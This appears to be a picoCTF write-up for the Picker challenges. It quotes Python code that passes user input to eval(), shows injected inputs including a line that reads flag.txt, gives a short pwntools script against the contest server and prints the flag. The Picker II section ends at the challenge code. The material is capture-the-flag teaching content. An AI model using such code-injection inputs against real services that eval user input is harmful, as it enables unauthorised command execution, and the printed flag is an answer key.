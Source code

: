 ```
while(True):
  try:
    print('Try entering "getRandomNumber" without the double quotes...')
    user_input = input('==> ')
    eval(user_input + '()')
  except Exception as e:
    print(e)
```
This code are vulnerable where it use eval(). Looking into win() and that is our target.

```
Try entering "getRandomNumber" without the double quotes...
==> getRandomNumber
4
Try entering "getRandomNumber" without the double quotes...
==> win
[Errno 2] No such file or directory: 'flag.txt'
Try entering "getRandomNumber" without the double quotes...
==> print(open('flag.txt', 'r').read())
[Errno 2] No such file or directory: 'flag.txt'

```

Simple script,
```
from pwn import *

r = remote('saturn.picoctf.net', 55986)

r.sendlineafter('quotes...',b'win')
get = r.interactive()
```

==picoCTF{4_d14m0nd_1n_7h3_r0ugh_b523b2a1}==

---
### Picker II
**Description**
Can you figure out how this program works to get the flag?

```
def filter(user_input):
  if 'win' in user_input:
    return False
  return True


while(True):
  try:
    user_input = input('==> ')
    if( filter(user_input) ):
      eval(user_input + '()')
    else:
      print('Illegal input')
  except Exception as e:
    print(e)
```
